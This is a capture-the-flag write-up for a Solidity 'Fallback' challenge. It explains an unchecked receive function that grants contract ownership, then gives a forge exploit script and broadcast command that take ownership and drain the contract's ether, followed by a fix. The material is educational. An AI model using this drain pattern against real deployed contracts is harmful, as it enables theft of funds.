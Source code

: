 # Fallback challenge writeup

## Challenge Description
This contract has various functions. `contribute` (sending ether to contract and increasing your contributions), if more than previous owner then you can become owner. `withdraw` function transfers all contract balance to owner. There is also `receive` function to get the ether which comes to the contract, this also executes code to become owner. The goal is to take all the balance of contract and also become the owner of contract.

## Vulnerability
`receive` function is not verifying whether contribution of msg.sender is greater than current owner or not. 

## Attack steps
1. Contribute very less(~1 wei) to have an account to send ether.
2. Send ether(~1 wei), so `receive` function is executed and owner will be changed.
3. Now execute `withdaw` function to drain all the ether from the contract.

## Exploit Code
Write a forge script to execute the attack

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;
import "@forge-std/Script.sol";
import {Fallback} from "../src/Fallback.sol";
contract FallbackScript is Script {
    Fallback public fallbackContract;

    function setUp() public {
        fallbackContract = Fallback(payable(vm.envAddress("FALLBACK_ADDRESS")));    
    }
    function run() public {
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        fallbackContract.contribute{value: 1 wei}();
        (bool success,) = address(fallbackContract).call{value: 1 wei}("");
        require(success, "Can't send the ether");
        fallbackContract.withdraw();
        vm.stopBroadcast();
    }
}

```
Save all your environment variables(PRIVATE_KEY, CONTRACT_ADDRESS, RPC_URL) in `.env` file.

Then execute below command

`forge script script/Fallback.s.sol --tc FallbackScript -vvv --fork-url $RPC_URL --slow --broadcast`

## Recommendation
receive function can be changed accordingly

```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > contributions[owner]);
    owner = msg.sender;
}
```